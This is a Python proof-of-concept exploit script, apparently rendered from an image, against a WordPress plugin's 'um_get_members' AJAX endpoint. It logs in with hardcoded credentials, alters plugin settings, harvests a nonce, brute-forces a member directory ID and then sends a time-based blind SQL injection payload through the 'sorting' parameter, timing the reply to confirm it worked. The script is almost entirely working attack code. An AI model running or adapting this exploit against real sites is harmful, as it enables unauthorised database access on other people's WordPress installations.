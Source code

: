 ```python
    """Find a valid directory ID using the nonce."""
    for i in range(1, 100):
        directory_id = hashlib.md5(str(i).encode()).hexdigest()[10:15]
        payload = {
            "action": "um_get_members",
            "nonce": nonce,
            "directory_id": directory_id,
        }

        response = requests.post(f"{TARGET}/wp-admin/admin-ajax.php", data=payload, proxies=proxies)
        if response.status_code == 200 and '"success":true' in response.text:
            print(f"[bold green][+] Valid directory ID found: {directory_id}.")
            return directory_id
    print("[bold red][-] Failed to find a valid directory ID.")
    sys.exit(0)

def attempt_sql_injection(nonce, directory_id):
    """Attempt an SQL injection using the provided nonce and directory ID."""
    payload = {
        "action": "um_get_members",
        "nonce": nonce,
        "directory_id": directory_id,
        "sorting": "ID AND (SELECT 42 FROM (SELECT(SLEEP(5)))b)",
    }

    start_time = time.time()
    response = requests.post(f"{TARGET}/wp-admin/admin-ajax.php", data=payload, proxies=proxies)
    end_time = time.time()

    elapsed_time = end_time - start_time

    if '"success":true' in response.text and elapsed_time >= 5:
        print("[bold green][+] SQL injection successful: 5-second delay observed.")
    else:
        print("[bold red][-] SQL injection attempt failed.")

if __name__ == '__main__':
    username = "root"
    password = "1234"

    check_version(TARGET)
    session = get_login_session(username, password)
    update_settings(session)
    logout(session)
    nonce = get_nonce()
    directory_id = get_directory_id(nonce)
    attempt_sql_injection(nonce, directory_id)

```
